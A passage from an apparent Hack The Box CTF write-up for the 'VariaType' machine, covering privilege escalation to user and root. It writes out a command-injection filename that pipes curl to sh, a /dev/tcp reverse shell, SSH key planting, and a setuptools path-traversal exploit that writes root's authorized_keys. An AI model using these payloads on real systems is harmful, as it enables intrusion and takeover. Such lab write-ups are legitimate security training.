backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
steve:x:1000:1000:steve,,,:/home/steve:/bin/bash
variatype:x:102:110::/nonexistent:/usr/sbin/nologin
_laurel:x:999:996::/var/log/laurel:/bin/false
```

| Username |
| -------- |
| steve    |

We also checked for listening ports to understand the services running.

```shell
www-data@variatype:~/portal.variatype.htb/public/files$ ss -tulpn
ss -tulpn
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess                                                   
udp   UNCONN 0      0            0.0.0.0:68        0.0.0.0:*                                                             
tcp   LISTEN 0      128        127.0.0.1:5000      0.0.0.0:*                                                             
tcp   LISTEN 0      511          0.0.0.0:80        0.0.0.0:*    users:(("nginx",pid=3508,fd=9),("nginx",pid=3507,fd=9))  
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*                                                             
tcp   LISTEN 0      511             [::]:80           [::]:*    users:(("nginx",pid=3508,fd=10),("nginx",pid=3507,fd=10))
tcp   LISTEN 0      128             [::]:22           [::]:*
```

Within `/opt` we found a backup script owned by `steve` that processes font submissions.

```shell
www-data@variatype:/opt$ ls -la
ls -la
total 20
drwxr-xr-x  4 root      root      4096 Mar  9 08:29 .
drwxr-xr-x 18 root      root      4096 Mar  9 08:29 ..
drwxr-xr-x  3 root      root      4096 Mar  9 08:29 font-tools
-rwxr-xr--  1 steve     steve     2018 Feb 26 07:50 process_client_submissions.bak
drwxr-xr-x  4 variatype variatype 4096 Mar  9 08:29 variatype
```

```shell
www-data@variatype:/opt$ cat process_client_submissions.bak
cat process_client_submissions.bak
#!/bin/bash
#
# Variatype Font Processing Pipeline
# Author: Steve Rodriguez <steve@variatype.htb>
# Only accepts filenames with letters, digits, dots, hyphens, and underscores.
#

set -euo pipefail

UPLOAD_DIR="/var/www/portal.variatype.htb/public/files"
PROCESSED_DIR="/home/steve/processed_fonts"
QUARANTINE_DIR="/home/steve/quarantine"
LOG_FILE="/home/steve/logs/font_pipeline.log"

mkdir -p "$PROCESSED_DIR" "$QUARANTINE_DIR" "$(dirname "$LOG_FILE")"

log() {
    echo "[$(date --iso-8601=seconds)] $*" >> "$LOG_FILE"
}

cd "$UPLOAD_DIR" || { log "ERROR: Failed to enter upload directory"; exit 1; }

shopt -s nullglob

EXTENSIONS=(
    "*.ttf" "*.otf" "*.woff" "*.woff2"
    "*.zip" "*.tar" "*.tar.gz"
    "*.sfd"
)

SAFE_NAME_REGEX='^[a-zA-Z0-9._-]+$'

found_any=0
for ext in "${EXTENSIONS[@]}"; do
    for file in $ext; do
        found_any=1
        [[ -f "$file" ]] || continue
        [[ -s "$file" ]] || { log "SKIP (empty): $file"; continue; }

        # Enforce strict naming policy
        if [[ ! "$file" =~ $SAFE_NAME_REGEX ]]; then
            log "QUARANTINE: Filename contains invalid characters: $file"
            mv "$file" "$QUARANTINE_DIR/" 2>/dev/null || true
            continue
        fi

        log "Processing submission: $file"

        if timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c "
import fontforge
import sys
try:
    font = fontforge.open('$file')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process $file: {e}', file=sys.stderr)
    sys.exit(1)
"; then
            log "SUCCESS: Validated $file"
        else
            log "WARNING: FontForge reported issues with $file"
        fi

        mv "$file" "$PROCESSED_DIR/" 2>/dev/null || log "WARNING: Could not move $file"
    done
done

if [[ $found_any -eq 0 ]]; then
    log "No eligible submissions found."
fi
```

The script showed that font files are processed using `FontForge`. To confirm the script was running we used `pspy` to monitor processes.

- [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

```shell
www-data@variatype:/dev/shm$ wget http://10.10.16.10/pspy64
wget http://10.10.16.10/pspy64
--2026-03-17 06:13:35--  http://10.10.16.10/pspy64
Connecting to 10.10.16.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy64'

     0K .......... .......... .......... .......... ..........  1%  600K 5s
    50K .......... .......... .......... .......... ..........  3% 1.18M 4s
   100K .......... .......... .......... .......... ..........  4% 2.06M 3s
   150K .......... .......... .......... .......... ..........  6% 1.21M 3s
   200K .......... .......... .......... .......... ..........  8% 1.13M 3s
   250K .......... .......... .......... .......... ..........  9% 1.13M 3s
   300K .......... .......... .......... .......... .......... 11% 1.13M 2s
   350K .......... .......... .......... .......... .......... 13% 1.12M 2s
   400K .......... .......... .......... .......... .......... 14% 2.18M 2s
   450K .......... .......... .......... .......... .......... 16% 1.12M 2s
   500K .......... .......... .......... .......... .......... 18% 2.13M 2s
   550K .......... .......... .......... .......... .......... 19% 2.10M 2s
   600K .......... .......... .......... .......... .......... 21% 2.18M 2s
   650K .......... .......... .......... .......... .......... 23% 2.18M 2s
   700K .......... .......... .......... .......... .......... 24% 2.12M 2s
   750K .......... .......... .......... .......... .......... 26% 2.21M 2s
   800K .......... .......... .......... .......... .......... 28% 3.44M 1s
   850K .......... .......... .......... .......... .......... 29% 1.59M 1s
   900K .......... .......... .......... .......... .......... 31% 23.3M 1s
   950K .......... .......... .......... .......... .......... 32% 2.10M 1s
  1000K .......... .......... .......... .......... .......... 34% 6.17M 1s
  1050K .......... .......... .......... .......... .......... 36% 2.35M 1s
  1100K .......... .......... .......... .......... .......... 37% 2.98M 1s
  1150K .......... .......... .......... .......... .......... 39% 2.25M 1s
  1200K .......... .......... .......... .......... .......... 41% 26.4M 1s
  1250K .......... .......... .......... .......... .......... 42% 2.25M 1s
  1300K .......... .......... .......... .......... .......... 44% 18.9M 1s
  1350K .......... .......... .......... .......... .......... 46% 2.34M 1s
  1400K .......... .......... .......... .......... .......... 47% 2.43M 1s
  1450K .......... .......... .......... .......... .......... 49% 14.5M 1s
  1500K .......... .......... .......... .......... .......... 51% 2.25M 1s
  1550K .......... .......... .......... .......... .......... 52% 27.0M 1s
  1600K .......... .......... .......... .......... .......... 54% 2.25M 1s
  1650K .......... .......... .......... .......... .......... 56% 21.6M 1s
  1700K .......... .......... .......... .......... .......... 57% 2.46M 1s
  1750K .......... .......... .......... .......... .......... 59% 22.0M 1s
  1800K .......... .......... .......... .......... .......... 61% 3.10M 1s
  1850K .......... .......... .......... .......... .......... 62% 6.18M 1s
  1900K .......... .......... .......... .......... .......... 64% 20.4M 0s
  1950K .......... .......... .......... .......... .......... 65% 2.83M 0s
  2000K .......... .......... .......... .......... .......... 67% 9.74M 0s
  2050K .......... .......... .......... .......... .......... 69% 3.00M 0s
  2100K .......... .......... .......... .......... .......... 70% 11.7M 0s
  2150K .......... .......... .......... .......... .......... 72% 18.7M 0s
  2200K .......... .......... .......... .......... .......... 74% 2.53M 0s
  2250K .......... .......... .......... .......... .......... 75% 25.7M 0s
  2300K .......... .......... .......... .......... .......... 77% 5.44M 0s
  2350K .......... .......... .......... .......... .......... 79% 4.01M 0s
  2400K .......... .......... .......... .......... .......... 80% 35.7M 0s
  2450K .......... .......... .......... .......... .......... 82% 5.25M 0s
  2500K .......... .......... .......... .......... .......... 84% 4.03M 0s
  2550K .......... .......... .......... .......... .......... 85% 34.9M 0s
  2600K .......... .......... .......... .......... .......... 87% 5.58M 0s
  2650K .......... .......... .......... .......... .......... 89% 3.76M 0s
  2700K .......... .......... .......... .......... .......... 90% 9.11M 0s
  2750K .......... .......... .......... .......... .......... 92% 6.82M 0s
  2800K .......... .......... .......... .......... .......... 93% 5.11M 0s
  2850K .......... .......... .......... .......... .......... 95% 25.2M 0s
  2900K .......... .......... .......... .......... .......... 97% 4.63M 0s
  2950K .......... .......... .......... .......... .......... 98% 4.25M 0s
  3000K .......... .......... .......... ..                   100%  114M=1.0s

2026-03-17 06:13:36 (2.83 MB/s) - 'pspy64' saved [3104768/3104768]
```

```shell
www-data@variatype:/dev/shm$ chmod +x pspy64
chmod +x pspy64
```

That confirmed that `steve` runs the font processing script periodically. We also checked which version of `fonttools` was installed.

```shell
www-data@variatype:/dev/shm$ ./pspy64
./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
<--- CUT FOR BREVITY --->
2026/03/14 17:10:01 CMD: UID=1000  PID=44429  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/14 17:10:01 CMD: UID=1000  PID=44430  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/14 17:10:01 CMD: UID=1000  PID=44431  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/14 17:10:01 CMD: UID=1000  PID=44432  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/14 17:10:01 CMD: UID=1000  PID=44434  | 
2026/03/14 17:10:01 CMD: UID=1000  PID=44435  | timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c 
import fontforge
import sys
try:
    font = fontforge.open('variabype_W28u_p-8RwM.ttf')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process variabype_W28u_p-8RwM.ttf: {e}', file=sys.stderr)
    sys.exit(1)
 
2026/03/14 17:10:01 CMD: UID=1000  PID=44436  | date --iso-8601=seconds 
2026/03/14 17:10:01 CMD: UID=1000  PID=44437  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/14 17:10:01 CMD: UID=1000  PID=44438  | /bin/bash /home/steve/bin/process_client_submissions.sh
<--- CUT FOR BREVITY --->
```

```shell
www-data@variatype:/opt$ fonttools
fonttools
fonttools v4.50.0

fonttools cffLib.width              Calculate optimum defaultWidthX/nominalWidthX values
fonttools cu2qu                     Convert a UFO font from cubic to quadratic curves
fonttools cu2qu.benchmark           Benchmark the cu2qu algorithm performance.
fonttools cu2qu.cli                 Convert a UFO font from cubic to quadratic curves
fonttools designspaceLib            Roundtrip .designspace file through the DesignSpaceDocument class
fonttools feaLib                    Add features from a feature file (.fea) into an OTF font
fonttools help                      Show this help
fonttools merge                     Merge multiple fonts into one
fonttools mtiLib                    Convert a FontDame OTL file to TTX XML
fonttools otlLib.optimize           Optimize the layout tables of an existing font
fonttools pens.statisticsPen        Report font glyph shape geometricsl statistics
fonttools pens.svgPathPen           Generate per-character SVG from font and text
fonttools qu2cu                     Convert an OpenType font from quadratic to cubic curves
fonttools qu2cu.benchmark           Benchmark the qu2cu algorithm performance.
fonttools qu2cu.cli                 Convert an OpenType font from quadratic to cubic curves
fonttools qu2cu.qu2cu               main()
fonttools subset                    OpenType font subsetter and optimizer
fonttools ttLib                     Open/save fonts with TTFont() or TTCollection()
fonttools ttLib.scaleUpem           Change the units-per-EM of fonts
fonttools ttLib.woff2               Compress and decompress WOFF2 fonts
fonttools ttx                       Convert OpenType fonts to XML and back
fonttools varLib                    Build variable fonts from a designspace file and masters
fonttools varLib.avar               Add `avar` table from designspace file to variable font.
fonttools varLib.avarPlanner        Plan the standard axis mappings for a variable font
fonttools varLib.instancer          Partially instantiate a variable font
fonttools varLib.interpolatable     Test for interpolatability issues between fonts
fonttools varLib.interpolate_layout Interpolate GDEF/GPOS/GSUB tables for a point on a designspace
fonttools varLib.models             Normalize locations on a given designspace
fonttools varLib.mutator            Instantiate a variation font
fonttools varLib.varStore           Optimize a font's GDEF variation store
fonttools voltLib.voltToFea         Convert MS VOLT to AFDKO feature files.
```

## Privilege Escalation to steve

### CVE-2024-25081: FontForge XML External Entity Injection (XXE)

Research revealed that `FontForge` was vulnerable to `CVE-2024-25081` an `XML External Entity` (`XXE`) injection vulnerability that can be triggered through malicious filenames.

- [https://www.openwall.com/lists/oss-security/2024/03/08/2](https://www.openwall.com/lists/oss-security/2024/03/08/2)
- [https://github.com/fonttools/fonttools/security/advisories/GHSA-6673-4983-2vx5](https://github.com/fonttools/fonttools/security/advisories/GHSA-6673-4983-2vx5)

Since the script processes archive files and uses the filename directly in shell commands we crafted a malicious filename using command substitution to execute our payload when `FontForge` processes it.

```shell
www-data@variatype:~/portal.variatype.htb/public/files$ python3 -c "import zipfile; z=zipfile.ZipFile('fonts.zip','w'); z.writestr('x\$(curl 10.10.16.10/steve|sh).ttf',open('/usr/share/fonts/truetype/dejavu/DejaVuSans.ttf','rb').read()); z.close()"
```

The malicious archive was created successfully.

```shell
www-data@variatype:~/portal.variatype.htb/public/files$ ls -la
ls -la
total 760
drwxrwsr-x 2 www-data  www-data   4096 Mar 17 06:20 .
drwxrwxr-x 4 root      www-data   4096 Mar  9 08:29 ..
-rw-r--r-- 1 www-data  www-data 759884 Mar 17 06:20 fonts.zip
-rw-r--r-- 1 variatype www-data   1008 Mar 17 06:09 shell.php
-rw-r--r-- 1 variatype www-data    600 Mar 17 06:09 variabype_7M0NMzh1OyA.ttf
```

We prepared our reverse shell payload and when the automated script processed our archive the command substitution in the filename executed our payload granting us a shell as `steve`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/VariaType/serve]
└─$ cat steve
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.16.10/4444 0>&1'
```

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.10.183] 41044
bash: cannot set terminal process group (4151): Inappropriate ioctl for device
bash: no job control in this shell
steve@variatype:/tmp/ffarchive-4152-1$
```

## user.txt

```shell
steve@variatype:~$ cat user.txt
cat user.txt
6fce644251f316e6b1432cc788eddad1
```

## Persistence

For convenience we set up `SSH` key-based authentication to maintain persistent access and to have a proper shell.

```shell
steve@variatype:~$ mkdir .ssh
mkdir .ssh
```

We generated a new `SSH` key pair on our attack machine.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): 
Enter passphrase for "/home/kali/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_ed25519
Your public key has been saved in /home/kali/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:5h7JGa1LGcXQ+ppq9Ud5LE4VM0W6tJVzKkylF2kaxnY kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|        .. .  o+o|
|         o. =oEo.|
|         .ooo=+*o|
|        .o o.o.=o|
|        S.. o++  |
|       +.B. =.o  |
|       .X+ + o   |
|      .ooo. o    |
|     ...o  .     |
+----[SHA256]-----+
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat .ssh/id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB8r4vPbn2m6ycgd7n22IPKG9aN7kviP37uw03woICNN kali@kali
```

And next we added our public key to `steve`'s authorized keys file to login via `SSH`.

```shell
steve@variatype:~/.ssh$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB8r4vPbn2m6ycgd7n22IPKG9aN7kviP37uw03woICNN" > authorized_keys
```

```shell
┌──(kali㉿kali)-[~]
└─$ ssh steve@variatype.htb
The authenticity of host 'variatype.htb (10.129.10.183)' can't be established.
ED25519 key fingerprint is: SHA256:0Wqe+nNeYlUwY+F669ywmS9kPUMYXqJh5xxCxwyCapI
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'variatype.htb' (ED25519) to the list of known hosts.
Linux variatype 6.1.0-43-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.162-1 (2026-02-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Mar 17 06:24:46 2026 from 10.10.16.10
steve@variatype:~$
```

## Enumeration (steve)

With stable `SSH` access as `steve` we continued our enumeration.

```shell
steve@variatype:~$ ls -la
total 52
drwx------ 9 steve steve 4096 Mar 17 06:22 .
drwxr-xr-x 3 root  root  4096 Dec  5 13:59 ..
lrwxrwxrwx 1 root  root     9 Feb 27 06:16 .bash_history -> /dev/null
-rw-r--r-- 1 steve steve  220 Dec  5 13:59 .bash_logout
-rw-r--r-- 1 steve steve 3526 Dec  5 13:59 .bashrc
drwxr-xr-x 2 steve steve 4096 Dec 13 15:02 bin
drwxr-xr-x 3 steve steve 4096 Dec  7 17:09 .config
drwxr-xr-x 3 steve steve 4096 Dec  7 16:55 .local
drwxr-xr-x 2 steve steve 4096 Dec  7 16:45 logs
drwxr-xr-x 2 steve steve 4096 Mar  9 08:29 processed_fonts
-rw-r--r-- 1 steve steve  807 Dec  5 13:59 .profile
drwxr-xr-x 2 steve steve 4096 Dec 13 15:12 quarantine
drwxr-xr-x 2 steve steve 4096 Mar 17 06:23 .ssh
-rw-r----- 1 root  steve   33 Mar 17 05:23 user.txt
```

By checking the `sudo` privileges we noticed that we could run a `plugin installer script` as root.

```shell
steve@variatype:~$ sudo -l
Matching Defaults entries for steve on variatype:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User steve may run the following commands on variatype:
    (root) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
```

We examined the script to understand its functionality.

```shell
steve@variatype:~$ cat /opt/font-tools/install_validator.py
#!/usr/bin/env python3
"""
Font Validator Plugin Installer
--------------------------------
Allows typography operators to install validation plugins
developed by external designers. These plugins must be simple
Python modules containing a validate_font() function.

Example usage:
  sudo /opt/font-tools/install_validator.py https://designer.example.com/plugins/woff2-check.py
"""

import os
import sys
import re
import logging
from urllib.parse import urlparse
from setuptools.package_index import PackageIndex

# Configuration
PLUGIN_DIR = "/opt/font-tools/validators"
LOG_FILE = "/var/log/font-validator-install.log"

# Set up logging
os.makedirs(os.path.dirname(LOG_FILE), exist_ok=True)
logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s [%(levelname)s] %(message)s',
    handlers=[
        logging.FileHandler(LOG_FILE),
        logging.StreamHandler(sys.stdout)
    ]
)

def is_valid_url(url):
    try:
        result = urlparse(url)
        return all([result.scheme in ('http', 'https'), result.netloc])
    except Exception:
        return False

def install_validator_plugin(plugin_url):
    if not os.path.exists(PLUGIN_DIR):
        os.makedirs(PLUGIN_DIR, mode=0o755)

    logging.info(f"Attempting to install plugin from: {plugin_url}")

    index = PackageIndex()
    try:
        downloaded_path = index.download(plugin_url, PLUGIN_DIR)
        logging.info(f"Plugin installed at: {downloaded_path}")
        print("[+] Plugin installed successfully.")
    except Exception as e:
        logging.error(f"Failed to install plugin: {e}")
        print(f"[-] Error: {e}")
        sys.exit(1)

def main():
    if len(sys.argv) != 2:
        print("Usage: sudo /opt/font-tools/install_validator.py <PLUGIN_URL>")
        print("Example: sudo /opt/font-tools/install_validator.py https://internal.example.com/plugins/glyph-check.py")
        sys.exit(1)

    plugin_url = sys.argv[1]

    if not is_valid_url(plugin_url):
        print("[-] Invalid URL. Must start with http:// or https://")
        sys.exit(1)

    if plugin_url.count('/') > 10:
        print("[-] Suspiciously long URL. Aborting.")
        sys.exit(1)

    install_validator_plugin(plugin_url)

if __name__ == "__main__":
    if os.geteuid() != 0:
        print("[-] This script must be run as root (use sudo).")
        sys.exit(1)
    main()
```

The script uses `setuptools.package_index.PackageIndex` to download plugins from a provided URL.

## Privilege Escalation to root

### CVE-2024-6345: setuptools PackageIndex Remote Code Execution (RCE) via malicious URL

Research revealed that older versions of `setuptools` are vulnerable to `CVE-2024-6345` which allows arbitrary file writes through the `PackageIndex.download()` method. The vulnerability occurs because `PackageIndex.download()` does not properly sanitize URL paths allowing an attacker to use URL-encoded path traversal sequences to write files to arbitrary locations on the filesystem.

To pull this off we needed to set up our payload directory structure on our attack machine.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/VariaType/serve]
└─$ mkdir -p root/.ssh
```

We created an `authorized_keys` file containing our `SSH` public key.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/VariaType/serve]
└─$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB8r4vPbn2m6ycgd7n22IPKG9aN7kviP37uw03woICNN" > root/.ssh/authorized_keys
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/VariaType/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

When we exploited the vulnerability by providing a URL with URL-encoded path traversal sequences that resolve to `/root/.ssh/authorized_keys`. The `%2F` sequences decoded to forward slashes allowing us to traverse to the root directory and write our public key.

```shell
steve@variatype:~$ sudo /usr/bin/python3 /opt/font-tools/install_validator.py "http://10.10.16.10/%2Froot%2F.ssh%2Fauthorized_keys"
2026-03-17 06:29:37,246 [INFO] Attempting to install plugin from: http://10.10.16.10/%2Froot%2F.ssh%2Fauthorized_keys
2026-03-17 06:29:37,256 [INFO] Downloading http://10.10.16.10/%2Froot%2F.ssh%2Fauthorized_keys
2026-03-17 06:29:37,385 [INFO] Plugin installed at: /root/.ssh/authorized_keys
[+] Plugin installed successfully.
```

Our `SSH` key was successfully written to `/root/.ssh/authorized_keys`. We authenticated via `SSH` as root.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh root@variatype.htb
Linux variatype 6.1.0-43-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.162-1 (2026-02-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Mar 17 06:29:43 2026 from 10.10.16.10
root@variatype:~#
```

## root.txt

```shell
root@variatype:~# cat root.txt
ca56e32c0d4a758ec26538a82efbb02e
```
